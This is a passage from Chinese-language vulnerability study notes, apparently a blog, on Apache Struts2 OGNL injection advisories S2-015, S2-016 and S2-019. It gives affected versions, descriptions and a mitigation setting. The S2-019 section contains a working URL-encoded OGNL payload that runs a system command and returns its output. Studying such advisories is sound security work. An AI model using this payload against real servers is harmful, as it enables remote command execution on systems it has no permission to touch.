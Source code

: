 在 ParamAction 的响应中，会获取请求中的 message 参数放到 fxxk 头部，首先执行
`${message}` 获取 Action 中的 message 属性，如果该属性的值又是 OGNL 表达式，则会进
行二次执行。所以 payload 的格式为 `%{expression}`

{{< figure src="/ox-hugo/2021-11-18_22-32-04_screenshot.png" >}}


## S2-016 {#s2-016}


### 影响范围 {#影响范围}

Struts 2.0.0 - Struts 2.3.15


### 漏洞描述 {#漏洞描述}

DefaultActionMapper 类支持以"action:"、"redirect:"、"redirectAction:"作为导航或是
重定向前缀，但是这些前缀后面同时可以跟 OGNL 表达式，由于 struts2 没有对这些前缀做过
滤，导致利用 OGNL 表达式调用 java 静态方法执行任意系统命令

poc 和 S2-015 一样，加在重定向前缀后面即可

{{< figure src="/ox-hugo/2021-11-18_23-10-46_screenshot.png" >}}


## S2-019 {#s2-019}


### 影响范围 {#影响范围}

Struts 2.0.0 - Struts 2.3.15.1


### 漏洞描述 {#漏洞描述}

该漏洞的原因是 Struts 默认开启动态方法调用(DMI)特性，该特性在 Struts 2.3.15.2 后
默认关闭，你也可以自己手动关闭：

```text
<constant name="struts.enable.DynamicMethodInvocation" value="false"/>
```

poc:

```nil
?debug=command&expression=%23a%3D%28new%20java.lang.ProcessBuilder%28%27whoami%27%29%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew%20java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew%20java.io.BufferedReader%28%23c%29%2C%23e%3Dnew%20char%5B50000%5D%2C%23d.read%28%23e%29%2C%23out%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23out.getWriter%28%29.println%28new%20java.lang.String%28%23e%29%29%2C%23out.getWriter%28%29.flush%28%29%2C%23out.getWriter%28%29.close%28%29%0A
```


## S2-029 {#s2-029}
